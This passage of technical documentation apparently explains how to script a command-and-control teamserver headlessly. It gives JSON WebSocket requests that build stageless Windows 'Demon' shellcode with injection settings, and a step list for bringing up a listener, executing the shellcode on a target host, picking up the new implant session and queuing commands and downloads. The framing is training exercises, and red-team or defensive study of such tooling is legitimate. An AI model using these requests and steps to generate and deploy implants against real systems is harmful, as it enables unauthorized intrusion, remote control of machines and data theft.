 ```json
  }
}
```

Send the JSON over the WebSocket as soon as authentication succeeds. Monitor `packager.Type.Listener.Add` responses to confirm the handler reports `Status == "Online"` before building payloads.

### Request stageless shellcode builds

The payload generator dialog wraps the same `Gate.Stageless` request you need for a headless workflow: the `Head` marks the message as one-time, and the `Body.Info` collection specifies the agent type, listener, output format, and JSON-encoded demon configuration.【F:client/src/UserInterface/Dialogs/Payload.cc†L220-L247】 The dispatcher unmarshals that JSON, selects the listener, and invokes the native builder before returning a `Gate.Stageless` package that contains the compiled bytes in `PayloadArray`.【F:teamserver/cmd/server/dispatch.go†L821-L925】【F:teamserver/pkg/events/gate.go†L12-L27】

A minimal shellcode request therefore looks like:

```json
{
  "Head": {
    "Event": 5,
    "User": "Neo",
    "Time": "06/10/2025 14:55:02",
    "OneTime": "true"
  },
  "Body": {
    "SubEvent": 2,
    "Info": {
      "AgentType": "Demon",
      "Listener": "training-http",
      "Arch": "x64",
      "Format": "Windows Shellcode",
      "Config": "{\"Sleep\":\"5\",\"Jitter\":\"15\",\"Injection\":{\"Alloc\":\"Win32\",\"Execute\":\"Win32\",\"Spawn64\":\"C:\\\\Windows\\\\System32\\\\notepad.exe\",\"Spawn32\":\"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\"}}"
    }
  }
}
```

Reuse the profile document broadcast during the login handshake (`packager.Type.InitConnection.Profile`) to seed the `Config` string so the builder receives the same defaults as the Qt client.【F:teamserver/pkg/events/events.go†L120-L138】 After the response arrives, base64-decode `PayloadArray` and persist it as the shellcode blob you will execute on the target host.

## Automating sequential workflows

The interactive REPL is convenient for ad-hoc operations, but training exercises usually need a deterministic workflow that provisions infrastructure, delivers an implant, and then executes operator commands in order. The headless protocol exposes everything required to orchestrate that sequence:

1. Connect to the teamserver, authenticate, and collect the cached profile document you will reuse during payload builds.【F:teamserver/cmd/headless/headless.go†L31-L115】【F:teamserver/pkg/events/events.go†L120-L138】
2. Add or update the listener you want to use for the engagement and wait until the server reports it as `Online`.【F:teamserver/cmd/server/listener.go†L220-L332】
3. Submit a `Gate.Stageless` build request that references that listener, save the returned shellcode, and execute it on the target host.【F:client/src/UserInterface/Dialogs/Payload.cc†L220-L247】【F:teamserver/cmd/server/dispatch.go†L821-L925】
4. Track the set of agent IDs that existed before the payload ran so you can recognise the new session when it checks in.【F:teamserver/pkg/events/demons.go†L17-L66】
5. Queue the desired commands one at a time, writing console output to disk and decoding download callbacks before scheduling the next task.【F:teamserver/pkg/service/service.go†L360-L418】
